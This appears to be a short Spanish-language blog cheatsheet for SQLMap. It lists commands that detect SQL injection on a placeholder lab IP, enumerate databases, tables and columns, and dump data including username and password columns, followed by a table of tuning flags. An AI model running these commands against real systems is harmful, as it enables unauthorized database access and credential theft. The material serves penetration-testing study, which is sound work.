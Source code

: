```yaml
---
layout: single
title: SQLMap
excerpt: "Herramienta que automatiza la explotación y detección de inyecciones SQL"
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/SQLMap/sqlmap-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - CLI

---
```



# SQLMap Cheatsheet
## Check if injection exists
```bash
sqlmap -r Post.req
sqlmap -u http://10.10.10.10/file.php?id=1 -p id  
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin"
```
## Get database if injection Exists
```bash
sqlmap -r login.req --dbs  
sqlmap -u http://10.10.10.10/file.php?id=1 -p id --dbs  
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin" --dbs
```
## Get Tables in a Database
```bash
sqlmap -r login.req -D dbname --tables  
sqlmap -u http://10.10.10.10/file.php?id=1 -p id -D dbname --tables  
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin" -D dbname --tables
```
### Get data in a Database tables
```bash
sqlmap -r login.req -D dbname -T table_name --dump  
sqlmap -u http://10.10.10.10/file.php?id=1 -p id -D dbname -T table_name --dump  
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin" -p user -D dbname -T table_name --dump
```
## Get Columns in a Table
```bash
sqlmap -r login.req -D dbname -T table_name --columns
sqlmap -u http://10.10.10.10/file.php?id=1 -p id -D dbname -T table_name --columns  
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin" -p user -D dbname -T table_name --columns
```
### Get data in a Database columns
```bash
sqlmap -r login.req -D dbname -T table_name -C username,password --dump
sqlmap -u http://10.10.10.10/file.php?id=1 -p id -D dbname -T table_name -C username,password --dump
sqlmap -u http://10.10.10.10/login.php --data="user=admin&password=admin" -p user -D dbname -T table_name -C username,password --dump
```

## Other parameters

| Flag | Description | Example |
|------|-------------|---------|
| --level \<int> | Aumenta los tipos de escaneo \[1 - 5] | --level 5 | 
| --risk \<int> | Aumenta el ruido y el rendimiento \[1 - 3] | --risk 3 | 
| --batch | Acepta las preguntas con el valor por defecto automáticamente | --batch |
| --string \<string> | Cadena de texto que aparece cuando la consulta es satisfactoria | --string "Hola" |
 | --not-string \<string> | Cadena de texto que aparece cuando la consulta no es satisfactoria | --not-string "Error" |


---

Escrito el 28-11-2021 a las 07:03 pm por creep33.
